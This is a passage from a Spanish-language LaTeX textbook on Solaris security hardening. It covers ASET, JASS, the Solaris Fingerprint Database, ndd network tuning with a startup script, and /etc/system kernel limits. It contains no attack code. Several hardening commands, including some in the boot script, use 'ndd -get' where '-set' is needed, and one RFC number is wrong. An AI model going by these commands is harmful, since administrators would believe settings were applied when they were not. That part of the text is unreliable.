guardado en esa i\-ma\-gen cierta informaci\'on sobre un fichero importante 
como {\tt /etc/inittab} (en {\tt /usr/aset/asetenv} se define la lista de 
directorios de los que se guarda una imagen en cada nivel de seguridad); parte 
de esta informaci\'on se encuentra en {\tt /usr/aset/masters/cklist.low}:
\begin{quote}
\begin{verbatim}
anita:/usr/aset/masters# grep inittab cklist.low 
-rw-r--r-- 1 root sys 1087 Jan 5 23:38 2000 /etc/inittab  26732 3
anita:/usr/aset/masters# 
\end{verbatim}
\end{quote}
Podemos ver que los par\'ametros registrados de este archivo: propietario y
grupo, permisos, n\'umero de enlaces, tama\~no, fecha y hora de la \'ultima
modificaci\'on y un {\it checksum}. Si ahora un atacante decidiera modificar 
ese fichero (por ejemplo para situar un troyano en \'el) casi con total 
seguridad modificar\'{\i}a alguno de esos par\'ametros, por lo que la siguiente
ejecuci\'on de la herramienta reportar\'{\i}a este hecho:
\begin{quote}
\begin{verbatim}
anita:/# grep inittab /usr/aset/reports/latest/cklist.rpt 
< -rw-r--r-- 1 root sys 1087 Jan 5 23:38 2000 /etc/inittab  26732 3
> -rw-r--r-- 1 root sys 1237 Jun 28 19:58 2001 /etc/inittab  37235 3
anita:/# 
\end{verbatim}
\end{quote}
Quiz\'as una pr\'actica recomendable para incrementar nuestra seguridad pueda
ser planificar la ejecuci\'on de {\tt `aset'} para que se ejecute a 
intervalos peri\'odicos desde {\tt `crond'} y para que nos avise (por ejemplo,
mediante correo electr\'onico) de cualquier anomal\'{\i}a detectada en la 
m\'aquina. Si lo hacemos as\'{\i}, hemos de tener siempre presente que el nivel
{\tt `high'} prima la seguridad por encima de cualquier otra cosa, por lo que
tras una ejecuci\'on planificada de {\tt `aset'} es posible que alguna 
aplicaci\'on puntual deje de funcionar.
\subsection{\sc jass}
{\sc jass} ({\it JumpStart Architecture and Security Scripts}, tambi\'en 
conocido como {\it Solaris Security Toolkit}) es un paquete {\it software} 
formado por diferentes herramientas cuyo objetivo es facilitar y automatizar la 
creaci\'on y el mantenimiento de entornos Solaris seguros; ha sido desarrollado
por Alex Noordergraaf y Glenn Brunette, dos expertos en seguridad de Sun 
Microsystems conocidos -- especialmente el primero de ellos -- por los {\it 
BluePrints} que peri\'odicamente publican. Se puede ejecutar sobre
una m\'aquina donde previamente hemos instalado Solaris ({\it Standalone 
Mode}), o bien durante la propia instalaci\'on del operativo ({\it JumpStart
Technology Mode}): conseguimos as\'{\i} una instalaci\'on por defecto segura, 
algo que se echa de menos en casi cualquier Unix.\\
\\Probablemente la parte m\'as importante de {\sc jass} son los denominados {\it
drivers}, ficheros \'on que especifican diferentes niveles de ejecuci\'on de la 
herramienta, definiendo qu\'e {\it scripts} se han de ejecutar en cada uno 
de esos niveles y qu\'e archivos se instalar\'an como resultado de la 
ejecuci\'on. Cada uno de estos {\it drivers} est\'a ubicado en el subdirectorio
{\tt Drivers/} del programa, y tiene tres partes bien diferenciadas 
(\cite{kn:noo01}): la primera
se encarga de inicializar ciertas variables de entorno necesarias para una 
correcta ejecuci\'on del {\it driver}, la segunda de definir qu\'e ficheros se
han de modificar y qu\'e {\it scripts} se han de ejecutar, y una tercera parte
es la encargada final de llevar a cabo los cambios correspondientes.\\
\\En un sistema Solaris ya instalado podemos invocar desde l\'{\i}nea de 
\'ordenes a {\sc jass} pas\'andole como par\'ametro el {\it driver} que deseemos
ejecutar, por ejemplo {\tt secure.driver} (un {\it driver} que implementa por
s\'{\i} s\'olo todas las funcionalidades de {\sc jass}):
\begin{quote}
\begin{verbatim}
anita:/var/tmp/jass-0.3# ./jass-execute -d secure.driver -o jass.log
./jass-execute: NOTICE: Executing driver, secure.driver
./jass-execute: NOTICE: Recording output to jass.log
anita:/var/tmp/jass-0.3# 
\end{verbatim}
\end{quote}
Todos los cambios que la ejecuci\'on anterior provoca (en el ejemplo anterior
podemos verlos en el archivo {\tt `jass.log'}, o en salida est\'andar si no
utilizamos la opci\'on {\tt `-o'}) quiz\'as convierten a
nuestro sistema en uno `demasiado seguro': es posible que perdamos parte de la
funcionalidad de la que dispon\'{\i}amos, debido al elevado n\'umero de 
restricciones llevadas a cabo en el sistema; es necesario que cada administrador
revise sus necesidades y los {\it scripts} a los que va a invocar antes de
ejecutar {\sc jass}. Afortunadamente, una de las caracter\'{\i}sticas m\'as
importantes de esta herramienta es su capacidad para deshacer los cambios que
cualquiera de sus ejecuciones haya llevado a cabo:
\begin{quote}
\begin{verbatim}
anita:/var/tmp/jass-0.3# ./jass-execute -u -o jass-undo.log
./jass-execute: NOTICE: Executing driver, undo.driver
Please select a JASS run to restore through:
1.  July 06, 2001 at 03:59:40 (//var/opt/SUNWjass/run/20010706035940)
Choice?  1
./jass-execute: NOTICE: Restoring to previous run //var/opt/SUNWjass/run/\
                20010706035940
./jass-execute: NOTICE: Recording output to jass-undo.log
anita:/var/tmp/jass-0.3# 
\end{verbatim}
\end{quote}
Podemos ver que la desinstalaci\'on de los cambios llevados a cabo previamente,
mediante la opci\'on {\tt `-u'} del programa, nos pregunta qu\'e ejecuci\'on
de {\sc jass} queremos desinstalar; como s\'olo lo hab\'{\i}amos lanzado una
vez, hemos elegido {\tt `1'}, pero si ya hubi\'eramos ejecutado la herramienta
en diferentes ocasiones se nos mostrar\'{\i}an todas ellas, con lo cual siempre
podemos devolver a la m\'aquina a un estado previo a cualquier ejecuci\'on de
{\sc jass}. Esta caracter\'{\i}stica es bastante importante, ya que volvemos a
insistir en que, en funci\'on del {\it driver} al que invoquemos, el sistema
puede quedar incluso demasiado `securizado': por poner un ejemplo, la 
ejecuci\'on de {\tt secure.driver} eliminar\'{\i}a cualquier acceso est\'andar
al sistema ({\tt telnet}, {\sc ftp}, {\tt rsh}\ldots), con lo que ser\'{\i}a
necesario de disponer de una consola o de {\sc ssh} para acceder remotamente a
la m\'aquina tras la ejecuci\'on de {\sc jass}.\\
\\Como hemos dicho antes, tambi\'en es posible integrar {\sc jass} en la propia
instalaci\'on del sistema operativo Solaris; para ello hemos de basarnos en la 
arquitectura {\it JumpStart} de Sun Microsystems (\cite{kn:noo01e}), copiando 
el paquete de {\it software} en el directorio ra\'{\i}z del servidor {\it 
JumpStart} y siguiendo unos pasos simples explicados con detalle en 
\cite{kn:noo01c}. Con unas sencillas modificaciones de algunos ficheros, 
conseguiremos una instalaci\'on por defecto segura, lo que evitar\'a que el 
administrador de los sistemas tenga que ir m\'aquina a m\'aquina para realizar
el t\'{\i}pico {\it hardening} postinstalaci\'on (cerrar puertos, configurar
accesos\ldots).\\
\\La que acabamos de ver es una herramienta {\bf muy recomendable} en cualquier
sistema Solaris, ya que consigue automatizar muchas tareas que de otra forma
el administrador deber\'{\i}a realizar manualmente. Su potencia, unida a su
sencillez de uso (y `desuso'), la convierten en algo si no imprescindible 
s\'{\i} muy importante en nuestros sistemas; incomprensiblemente no se utiliza
de forma extendida, aunque es previsible que con sus nuevas versiones 
(actualmente est\'a disponible la 0.3) esto comience a cambiar pronto. Podemos
obtener informaci\'on adicional de esta herramienta en los BluePrints publicados
por Sun Microsystems y que se distribuyen, aparte de v\'{\i}a {\it web}, en el 
directorio {\tt Documentation/} de la misma: \cite{kn:noo01}, \cite{kn:noo01b},
\cite{kn:noo01c}, \cite{kn:noo01d}\ldots
\subsection{sfp{\sc db}}
La base de datos sfp{\sc db} ({\it Solaris Fingerprint Database}) es un 
servicio gratuito de Sun Microsystems que permite a los usuarios verificar la 
integridad de los archivos distribuidos con Solaris, tanto con la base del 
operativo como con productos concretos de Sun o parches; esto permite por una
parte verificar que lo que acabamos de instalar en una m\'aquina es realmente
una distribuci\'on de Solaris oficial de Sun, y por otra detectar si un 
pirata ha logrado modificar alguno de los ficheros del sistema (como {\tt
/bin/login}), t\'{\i}picamente para situar troyanos o puertas traseras en una
m\'aquina atacada: se trata de un sistema de detecci\'on de intrusos basado en
{\it host}, como veremos a la hora de hablar de IDSes.\\
\\Para lograr su objetivo, desde {\tt http://sunsolve.sun.com/} se puede 
comparar la funci\'on resumen {\sc md5} de determinados archivos que tenemos
en nuestra m\'aquina con el resumen almacenado por Sun Microsystems. Para ello
en primer lugar hemos de generar el resumen de los ficheros que deseemos 
verificar, mediante la orden {\tt md5} (instalada como parte del paquete {\tt
SUNWkeymg} o de forma independiente):
\begin{quote}
\begin{verbatim}
anita:/# pkgchk -l -p /usr/sbin/md5
Pathname: /usr/sbin/md5
Type: regular file
Expected mode: 0755
Expected owner: root
Expected group: sys
Expected file size (bytes): 24384
Expected sum(1) of contents: 12899
Expected last modification: Nov 11 20:19:48 1999
Referenced by the following packages:
        SUNWkeymg      
Current status: installed

anita:/# md5 /bin/su
MD5 (/bin/su) = 79982b7b2c7576113fa5dfe316fdbeae
anita:/# 
\end{verbatim}
\end{quote}
Una vez hecho esto, introduciremos este resumen en un formulario {\it web}, y 
se nos proporcionar\'a informaci\'on sobre el mismo; si no hay problemas, el
resultado ser\'a similar al siguiente:
\begin{quote}
\begin{verbatim}
Results of Last Search

79982b7b2c7576113fa5dfe316fdbeae - (/bin/su) - 1 match(es) 
           canonical-path: /usr/bin/su 
           package: SUNWcsu 
           version: 11.8.0,REV=2000.01.08.18.17 
           architecture: i386 
           source: Solaris 8/Intel 
\end{verbatim}
\end{quote}
Mientras que si el resumen que hemos obtenido no se corresponde con el de
ning\'un fichero de las diferentes versiones de Solaris u otro {\it software} de
Sun, se nos dar\'a el error {\it Not found in this database}. Este error de
entrada implica que en nuestra m\'aquina tenemos algo cuanto menos `extra\~no',
ya que es extremadamente raro que un archivo del sistema como {\tt /bin/su},
{\tt /bin/ps} o {\tt /bin/ls} sea modificado en un sistema. Si fuera este el
caso, y como administradores desconocemos a qu\'e puede ser debida esa 
modificaci\'on, con una alta probabilidad nos han instalado un {\it rootkit}, un
conjunto de herramientas utilizadas por los piratas principalmente para ocultar 
su presencia y garantizarse el acceso en una m\'aquina donde han conseguido 
privilegios de {\tt root}; un {\it rootkit} instala versiones troyanizadas de 
casi todos los programas que pueden ayudar en la detecci\'on del pirata, como 
{\tt `ls'} o {\tt `netstat'}, lo que provoca que si no ponemos un m\'{\i}nimo
de inter\'es sea muy dif\'{\i}cil detectar la intrusi\'on.\\
\\Existen adem\'as ciertas extensiones a la sfp{\sc db} cuyo objetivo es 
facilitar el uso de la base de datos \cite{kn:vas01}; una de ellas es sfp{\sc 
c} ({\it Solaris Fingerprint Database Companion}), que automatiza el proceso de 
generar y verificar los res\'umenes {\sc md5} de un n\'umero considerable de 
archivos mediante un {\it script} en {\sc perl} (recordemos que un simple 
interfaz {\it
web} que invoca a un {\sc cgi} no es apropiado para todas las aplicaciones, por
lo que Sun Microsystems est\'a estudiando la posibilidad de publicar de otra
forma el contenido completo de la base de datos). Para conseguirlo, sfp{\sc c} 
acepta como entrada un fichero que contiene una lista de res\'umenes, 
dividi\'endola en diferentes partes para enviarlas por separado a la sfp{\sc 
db}, y generando resultados globales en funci\'on de cada uno de los resultados
individuales obtenidos.\\
\\Otra de estas herramientas es sfp{\sc s} ({\it Solaris Fingerprint Database
Sidekick}), un sencillo {\it shellscript} que funciona en conjunci\'on con la
propia sfp{\sc db} y con sfp{\sc c} y cuyo objetivo es simplificar la 
detecci\'on de troyanos; para ello, almacena una lista de ejecutables 
com\'unmente troyanizados por cualquier {\it rootkit}, y es el contenido de 
dicha lista el que se compara contra la base de datos mediante el {\it script}
en {\sc perl} de sfp{\sc c}.\\
\\Evidentemente esta base de datos de Sun Microsystems y sus utilidades 
asociadas (que podemos descargar libremente desde las p\'aginas {\it web} de
esta compa\~n\'{\i}a), como cualquier otro producto a la hora
de hablar de seguridad, no es la panacea, sino s\'olo una herramienta m\'as que
nos puede ayudar a detectar intrusiones en una m\'aquina. Tambi\'en tiene
puntos d\'ebiles, ya que por ejemplo un atacante que sea capaz de modificar
ciertas utilidades del sistema podr\'a hacer lo mismo con el ejecutable {\tt
`md5'}, de forma que simule generar resultados similares a los originales 
cuando verificamos la integridad de utilidades troyanizadas; contra esto, una
soluci\'on efectiva puede ser utilizar un {\tt `md5'} est\'atico y guardado en
una unidad de s\'olo lectura, y por supuesto generado a partir de fuentes
confiables. Sin ser una herramienta excluyente, mediantes consultas 
automatizadas a la base de datos proporcionada por Sun Microsystems tenemos la
posibilidad de descubrir intrusiones graves en nuestros sistemas en un tiempo
m\'{\i}nimo, y de forma sencilla.
\section{El subsistema de red}
Antes de hablar de la seguridad del subsistema de red en Solaris quiz\'as sea
necesario introducir el comando {\tt `ndd'}; esta orden permite tanto consultar
(mediante el s\'{\i}mbolo {\tt `?'}) como modificar la configuraci\'on de 
ciertos {\it drivers} del sistema, en concreto los que soportan la pila de 
protocolos {\sc tcp/ip}:
\begin{quote}
\begin{verbatim}
anita:/# ndd -get /dev/tcp tcp_strong_iss 
1
anita:/# ndd -set /dev/tcp tcp_strong_iss 2
anita:/# ndd -get /dev/tcp tcp_strong_iss 
2
anita:/#
\end{verbatim}
\end{quote}
Si quisi\'eramos comprobar qu\'e par\'ametros ofrece un determinado {\it 
driver} (por ejemplo {\tt /dev/tcp}), lo har\'{\i}amos con la orden siguiente:
\begin{quote}
\begin{verbatim}
anita:/# ndd -get /dev/tcp \?
\end{verbatim}
\end{quote}
El uso del car\'acter {\tt `$\backslash$'} no es m\'as que un escape del {\it
shell} para el s\'{\i}mbolo {\tt `?'}. es importante conocer qu\'e par\'ametros
ofrece cada {\it driver} de nuestro sistema antes de planificar una 
modificaci\'on de sus valores, especialmente en Solaris 8, versi\'on en la que
ha cambiado ligeramente el nombre de alguno de ellos y adem\'as se han incluido
algunos nuevos relativos a IPv6 (que no mostramos aqu\'{\i}).\\
\\Los primeros par\'ametros que nos interesar\'a modificar para incrementar
la seguridad de nuestro sistema pueden ser los relacionados con el {\it 
forwarding}, el reenv\'{\i}o de paquetes de cierto tipo que llegan a la 
m\'aquina. En primer lugar, es importante evitar que nuestro equipo se convierta
en un enrutador; aunque en algunas versiones de Solaris es suficiente con 
crear el fichero {\tt /etc/notrouter}, lo m\'as recomendable es deshabilitar por
completo el {\it IP Forwarding} a nivel del subsistema de red, lo cual se 
consigue mediante la siguiente orden:
\begin{quote}
\begin{verbatim}
anita:/# ndd -set /dev/ip ip_forwarding 0
anita:/# 
\end{verbatim}
\end{quote}
Tambi\'en es importante evitar que en {\it hosts} con m\'ultiples tarjetas se
reenv\'{\i}en tramas entre ellas; con esto conseguimos hacer m\'as dif\'{\i}cil 
un ataque de {\it IP Spoofing}, ya que el sistema conoce en todo momento a 
trav\'es de que interfaz le llega un paquete, y si lo hace por una que no le
corresponde, la trama se ignora. Para lograr este objetivo podemos modificar el
valor del par\'ametro {\tt ip$\_$strict$\_$dst$\_$multihoming}:
\begin{quote}
\begin{verbatim}
anita:/# ndd -set /dev/ip ip_strict_dst_multihoming 1
anita:/#
\end{verbatim}
\end{quote}
Los \'ultimos par\'ametros relacionados con el reenv\'{\i}o de tramas en la
m\'aquina afectan a los {\it broadcasts} y a los paquetes {\it source routed}
(aquellos que contienen en su interior el camino a seguir, total o 
parcialmente, hasta su destino). Por supuesto, no es recomendable el {\it 
forwarding} de {\it broadcasts} dirigidos desde una estaci\'on fuera de una red
hacia todos los equipos de esa red, algo que una m\'aquina Solaris con el {\it
IP Forwarding} activado hace por defecto; de la misma forma, no se deben 
reenviar tramas que marquen el camino a su destino, ya que en la mayor parte de
redes no existen motivos v\'alidos para la emisi\'on de este tipo de paquetes,
y muchos de ellos son denotativos de actividades sospechosas. Podemos evitar
ambos reenv\'{\i}os mediante las siguientes \'ordenes respectivamente:
\begin{quote}
\begin{verbatim}
anita:/# ndd -set /dev/ip ip_forward_directed_broadcasts 0
anita:/# ndd -set /dev/ip ip_forward_src_routed 0
anita:/#
\end{verbatim}
\end{quote}
Otros par\'ametros a tener en cuenta para incrementar nuestro nivel de 
seguridad son algunos relativos a ataques contra el protocolo {\sc arp}; para
prevenir el {\it ARP Spoofing} es recomendable reducir el {\it timeout} que 
Solaris presenta por defecto y que marca la frecuencia de borrado de las 
entradas de la tabla {\sc arp} y de la tabla de rutado, fijando ambas en un 
minuto. Esto lo conseguimos mediante las \'ordenes siguientes (en las que 
especificamos el tiempo en milisegundos):
\begin{quote}
\begin{verbatim}
anita:/# ndd -get /dev/arp arp_cleanup_interval 60000
anita:/# ndd -get /dev/ip ip_ire_flush_interval 60000
anita:/# 
\end{verbatim}
\end{quote}
Dentro del protocolo {\sc icmp} tambi\'en existen par\'ametros del subsistema de
red interesantes para nuestra seguridad; un grupo de ellos son los relacionados
con los diferentes tipos de tramas {\sc icmp} que pueden implicar un {\it 
broadcast}: {\sc icmp$\_$echo$\_$request}, {\sc icmp$\_$timestamp} e {\sc 
icmp$\_$address$\_$mask}. Todos ellos pueden ser utilizados para causar 
negaciones de servicio, por lo que una buena idea en la mayor parte de 
situaciones es simplemente ignorarlos; incluso en el segundo caso ({\sc 
icmp$\_$timestamp}) Solaris ofrece la posibilidad de ignorar las tramas de este
tipo aunque no sean {\it broadcasts}, simplemente paquetes dirigidos a un {\it
host} deterinado, ya que pueden proporcionar informaci\'on del sistema \'util
de cara a un ataque. Para conseguir ignorar todas estas tramas podemos ejecutar 
estas \'ordenes:
\begin{quote}
\begin{verbatim}
anita:/# ndd -get /dev/ip ip_respond_to_echo_broadcast 0
anita:/# ndd -get /dev/ip ip_respond_to_timestamp_broadcast 0
anita:/# ndd -get /dev/ip ip_respond_to_address_mask_broadcast 0
anita:/# ndd -get /dev/ip ip_respond_to_timestamp 0
anita:/#
\end{verbatim}
\end{quote}
Todav\'{\i}a dentro del protocolo {\sc icmp}, otro tipo de mensajes que nos
pueden causar problemas son los {\sc icmp$\_$redirect}; es conveniente 
deshabilitar tanto su emisi\'on ({\bf s\'olo} un {\it router} tiene la necesidad
de enviar este tipo de tramas) como su recepci\'on, ya que pueden ser 
utilizados para generar rutas falsas en el subsistema de red de una m\'aquina.
Para lograr ambas cosas podemos ejecutar las siguientes \'ordenes:
\begin{quote}
\begin{verbatim}
anita:/# ndd -get /dev/ip ip_ignore_redirects 1
anita:/# ndd -get /dev/ip ip_send_redirects 0
anita:/#
\end{verbatim}
\end{quote}
La generaci\'on de los n\'umeros iniciales de secuencia {\sc tcp} es otro
par\'ametro que seguramente nos interesar\'a modificar en un sistema
Solaris; por defecto esta generaci\'on se basa en incrementos pseudoaleatorios,
lo que puede facilitar ataques de {\it IP Spoofing} contra el sistema. Podemos
aumentar nuestro nivel de seguridad utilizando un esquema de generaci\'on m\'as
robusto, basado en \cite{kn:rfc1498}, simplemente modificando el fichero {\tt
/etc/default/inetinit} para asignarle al par\'ametro {\sc tcp$\_$strong$\_$iss}
un valor de 2:
\begin{quote}
\begin{verbatim}
anita:/# cat /etc/default/inetinit
# @(#)inetinit.dfl 1.2 97/05/08
#
# TCP_STRONG_ISS sets the TCP initial sequence number generation parameters.
# Set TCP_STRONG_ISS to be:
#     0 = Old-fashioned sequential initial sequence number generation.
#     1 = Improved sequential generation, with random variance in increment.
#     2 = RFC 1948 sequence number generation, unique-per-connection-ID.
#
TCP_STRONG_ISS=2
anita:/#
\end{verbatim}
\end{quote}
Al contrario de lo que sucede con {\tt ndd}, cuyos cambios se pierden al 
reiniciar el sistema y hay que planificar en el arranque si necesitamos hacerlos
permanentes, la modificaci\'on del fichero anterior no tendr\'a efecto hasta 
que el sistema vuelva a arrancar; si no queremos detener la m\'aquina, podemos 
conseguir lo mismo mediante la orden {\tt `ndd'} sobre el n\'ucleo en 
ejecuci\'on:
\begin{quote}
\begin{verbatim}
anita:/# ndd -set /dev/tcp tcp_strong_iss 2
anita:/# 
\end{verbatim}
\end{quote}
Tambi\'en mediante {\tt ndd} podemos modificar en Solaris las restricciones 
relativas a los puertos reservados (aquellos que s\'olo el {\tt root} puede 
utilizar, por defecto los que est\'an por debajo del 1024). En primer lugar,
podemos definir el m\'{\i}nimo puerto no reservado, para que las conexiones al
sistema o los procesos de usuario puedan utilizar s\'olo los que est\'an por
encima de \'el; si por ejemplo queremos que el rango de puertos reservados 
comprenda a todos los que est\'an por debajo del 5000 podemos ejecutar la orden
siguiente:
\begin{quote}
\begin{verbatim}
anita:/# ndd -set /dev/tcp tcp_smallest_nonpriv_port 5000
anita:/#
\end{verbatim}
\end{quote}
Adem\'as, desde su versi\'on 2.6 Solaris permite marcar puertos individuales
como reservados, tanto {\sc udp} como {\sc tcp}, y tambi\'en eliminar esta 
restricci\'on de puertos que previamente hayamos reservado; por defecto, aparte
de los primeros 1024 puertos, Solaris define como reservados -- en {\sc tcp} y
{\sc udp} -- los puertos 2049 ({\tt nfsd}) y 4045 ({\tt lockd}). En el siguiente
ejemplo se muestra c\'omo consultar los puertos marcados de esta forma, c\'omo 
a\~nadir un alguno a la lista, y c\'omo eliminarlo de la misma; aunque el 
ejemplo se aplica a {\sc tcp}, el caso de {\sc udp} es completamente an\'alogo 
pero sustituyendo el nombre del dispositivo contra el que ejecutamos la orden 
(que ser\'{\i}a {\tt /dev/udp}) y la cadena {\tt `tcp'} del nombre de cada 
par\'ametro por {\tt `udp'}:
\begin{quote}
\begin{verbatim}
anita:/# ndd /dev/tcp tcp_extra_priv_ports
2049
4045
anita:/# ndd -set /dev/tcp tcp_extra_priv_ports_add 5000
anita:/# ndd /dev/tcp tcp_extra_priv_ports
2049
4045
5000
anita:/# ndd -set /dev/tcp tcp_extra_priv_ports_del 5000
anita:/# ndd /dev/tcp tcp_extra_priv_ports
2049
4045
anita:/#
\end{verbatim}
\end{quote}
Antes de finalizar este punto es importante insistir en que los cambios 
producidos 
por {\tt `ndd'} s\'olo se mantienen hasta el siguiente reinicio del sistema; 
de esta forma, las modificaciones que hemos visto aqu\'{\i} se mantendr\'an 
s\'olo mientras la m\'aquina no se pare, pero si esto sucede en el arranque 
todos los par\'ametros del subsistema de red tomar\'an sus valores por defecto.
Por tanto, lo m\'as probable es que nos interese planificar en el inicio del
sistema las modificaciones estudiadas en este punto para que se ejecuten de
forma autom\'atica; para conseguirlo, no tenemos m\'as que crear el {\it 
script} correspondiente y ubicarlo en el directorio {\tt /etc/rc2.d/} con un
nombre que comience por {\tt `S'}, con lo que hacemos que se ejecute siempre que
la m\'aquina entre en un {\it runlevel} 2:
\begin{quote}
\begin{verbatim}
anita:~# cat /etc/init.d/nddconf
#!/sbin/sh
#
# Configuracion segura del subsistema de red de Solaris
#
ndd -set /dev/ip ip_forwarding 0
ndd -set /dev/ip ip_strict_dst_multihoming 1
ndd -set /dev/ip ip_forward_directed_broadcasts 0
ndd -set /dev/ip ip_forward_src_routed 0
ndd -get /dev/arp arp_cleanup_interval 60000
ndd -get /dev/ip ip_ire_flush_interval 60000
ndd -get /dev/ip ip_respond_to_echo_broadcast 0
ndd -get /dev/ip ip_respond_to_timestamp_broadcast 0
ndd -get /dev/ip ip_respond_to_address_mask_broadcast 0
ndd -get /dev/ip ip_respond_to_timestamp 0
ndd -get /dev/ip ip_ignore_redirects 1
ndd -get /dev/ip ip_send_redirects 0
ndd -set /dev/tcp tcp_strong_iss 2
#
anita:~# chmod 744 /etc/init.d/nddconf
anita:~# chown root:sys /etc/init.d/nddconf
anita:~# ln /etc/init.d/nddconf /etc/rc2.d/S70nddconf
anita:~# 
\end{verbatim}
\end{quote}
Si queremos conocer mejor la configuraci\'on de seguridad del subsistema de
red de Solaris una {\bf excelente} obra que no deber\'{\i}a faltar en la mesa
de ning\'un administrador de sistemas es \cite{kn:noo99}; todo este punto est\'a
basado ampliamente en ella. Incluye, adem\'as de explicaciones claras sobre 
el porqu\'e del valor de cada par\'ametro para prevenir posibles ataques, un
{\it shellscript} para planificar en el inicio del sistema, much\'{\i}simo m\'as
completo que el presentado aqu\'{\i}, y aplicable a varias versiones de Solaris
(incluyendo la 8); en sistemas en los que la seguridad es un factor a tener en
cuenta (>todos?) es casi obligatorio utilizar esta planificaci\'on.
%\\Otro uso interesante de {\tt `ndd'} es evitar la identificaci\'on remota del
%sistema operativo (lo que se conoce como {\it OS Fingerprinting}) que se 
%ejecuta en nuestras m\'aquinas: al contrario de lo que
%mucha gente cree, es posible -- y sencillo -- `enga\~nar' a una herramienta de
%detecci\'on remota (por ejemplo, {\tt `nmap'}) para que a un atacante le sea
%m\'as dif\'{\i}cil obtener el sistema operativo instalado en una m\'aquina. Para
%ello no tenemos m\'as que mo\-di\-fi\-car ciertos par\'ametros de nuestro 
%subsistema de red, de forma que la herramienta que utilice el pirata para 
%detectar nuestro sistema no sepa discernir de cual se trata; por ejemplo
\section{Par\'ametros del n\'ucleo}
En el archivo {\tt /etc/system} el administrador de un equipo Solaris puede 
definir variables
para el n\'ucleo del sistema operativo, como el n\'umero m\'aximo de ficheros
abiertos por un proceso o el uso de memoria compartida, sem\'aforos y mensajes
para intercomunicaci\'on entre procesos. En este apartado vamos a comentar 
algunos de estos par\'ametros que pueden afectar a la seguridad; hablaremos 
especialmente de aquellos que pueden y deben ser limitados para evitar diversos 
tipos de negaciones de servicio, ataques que recordemos afectan a la 
disponibilidad de nuestros recursos.\\ 
\\Si deseamos ver el valor de alguno de los par\'ametros en el {\it kernel} que 
se est\'a ejecutando en este momento, lo podemos hacer con la orden {\tt adb} 
(n\'otese que no ofrece ning\'un {\it prompt}, hemos de escribir directamente 
el par\'ametro a visualizar, con un {\tt `/D'} al final para que nos muestre el
valor en decimal):
\tt 
\begin{quote}
\begin{verbatim}
anita:~# adb -k /dev/ksyms /dev/mem
physmem 38da
maxusers/D
maxusers:
maxusers:       56
maxuprc/D
maxuprc:
maxuprc:        901
^d
anita:~# 
\end{verbatim}
\end{quote}
\rm
Una negaci\'on de servicio muy t\'{\i}pica en Unix es el consumo excesivo de
recursos por parte de usuarios que lanzan -- voluntaria o involuntariamente --
demasiados procesos; esto es especialmente com\'un en sistemas de I+D, donde
muchos usuarios se dedican a programar, y un peque\~no error en el c\'odigo 
(a veces denominado {\it `runaway fork'}) puede hacer que el sistema se vea 
parado por un exceso de procesos activos en
la tabla. La gravedad del problema aumenta si pensamos que tambi\'en es muy
habitual que los usuarios lancen simulaciones que tardan en ejecutarse varios 
d\'{\i}as (o varias semanas), de forma que una parada inesperada puede causar
la p\'erdida de muchas horas de trabajo. Por tanto, parece obvio que es 
recomendable limitar el n\'umero de procesos simult\'aneos por usuario; en 
Solaris este n\'umero est\'a ilimitado por defecto, por lo que si deseamos 
asignar un valor m\'aximo hemos de editar el fichero {\tt /etc/system} e 
incluir una l\'{\i}nea como la siguiente:
\tt
\begin{quote}
\begin{verbatim}
set maxuprc=60
\end{verbatim}
\end{quote}
\rm
De esta forma limitamos el n\'umero de procesos por usuario a 60 (un n\'umero
aceptable en la mayor\'{\i}a de sistemas\footnote{Aunque en algunos documentos
se recomienda, para otros Unices, un n\'umero m\'aximo de 200 procesos 
(\cite{kn:ciu99}).}), consiguiendo as\'{\i} que un error
en un programa no sea capaz de detener la m\'aquina.\\ 
\\Un par\'ametro del sistema operativo especialmente importante, y que quiz\'as
nos interese modificar (sobre todo en m\'aquinas con pocos recursos) es {\tt 
maxusers}. Al contrario de lo que mucha gente cree, {\tt maxusers} no hace 
referencia al n\'umero m\'aximo de usuarios que pueden conectar 
simult\'aneamente al sistema, sino que es un valor que escala a otros 
par\'ametros del 
n\'ucleo (como {\tt max$\_$nproc}, n\'umero m\'aximo de procesos en la tabla) o 
{\tt maxuprc}. Para modificarlo, podemos incluir en {\tt /etc/system} una 
l\'{\i}nea con el valor deseado, generalmente el tama\~no en MB de la memoria
f\'{\i}sica de nuestra m\'aquina (\cite{kn:dik99}):
\tt
\begin{quote}
\begin{verbatim}
set maxusers=128
\end{verbatim}
\end{quote}
\rm
Tambi\'en puede ser conveniente limitar par\'ametros del sistema operativo 
relativos al sistema de ficheros, ya que tambi\'en se pueden producir 
negaciones de servicio relacionadas con ellos. Por ejemplo, es interesante
poder limitar el n\'umero m\'aximo de ficheros abiertos mediante los 
par\'ametros {\tt rlim$\_$fd$\_$max} (l\'{\i}mite {\it hard}) y {\tt 
rlim$\_$fd$\_$cur} (l\'{\i}mite {\it soft}) o evitar que los usuarios puedan
utilizar {\tt chown()} en sus ficheros, especificando un valor 1 para la 
variable {\tt rstchown} (este es el comportamiento por defecto; si no lo 
seguimos, aparte de comprometer la seguridad los usuarios sin privilegios 
podr\'{\i}an ignorar el sistema de {\it quotas}).\\
\\Dejando ya de lado los l\'{\i}mites que se pueden imponer a los recursos
consumidos por los usuarios del sistema, existe otra serie de par\'ametros del
n\'ucleo interesantes para aumentar la seguridad de un sistema Solaris. Por 
ejemplo, en algunas arquitecturas SPARC (concretamente en {\tt sun4u}, {\tt 
sun4d} y {\tt sun4m}) es posible, desde Solaris 2.6, establecer una 
protecci\'on {\it hardware} para prevenir ataques de {\it buffer overflow}.
Esta protecci\'on consiste en impedir que los programas puedan ejecutar 
c\'odigo en su pila, recibiendo la se\~nal {\sc sigsegv} si tratan de hacerlo:
para ello, en {\tt /etc/system} hemos de incluir una l\'{\i}nea como
\begin{quote}
\begin{verbatim}
set noexec_user_stack=1 
\end{verbatim}
\end{quote}
Y si adem\'as queremos monitorizar los intentos de ataque de este tipo (como
mensajes del n\'ucleo de Solaris, con {\it priority} {\tt `kern'} y nivel {\tt
`notice'}, por defecto en {\tt /var/adm/messages}), podemos incluir en el 
archivo la l\'{\i}nea 
\begin{quote}
\begin{verbatim}
set noexec_user_stack_log=1
\end{verbatim}
\end{quote}
Si administramos un servidor {\sc nfs} y deseamos que ignore las peticiones de 
clientes que no 
provengan de puertos privilegiados (es decir, que no hayan sido solicitadas por
un usuario privilegiado de la m\'aquina cliente) podemos definir la variable
{\sc nfs$\_$portmon} en {\tt /etc/system}; si usamos versiones de Solaris 
anteriores a la 2.5, debemos incluir una l\'{\i}nea como
\begin{quote}
\begin{verbatim}
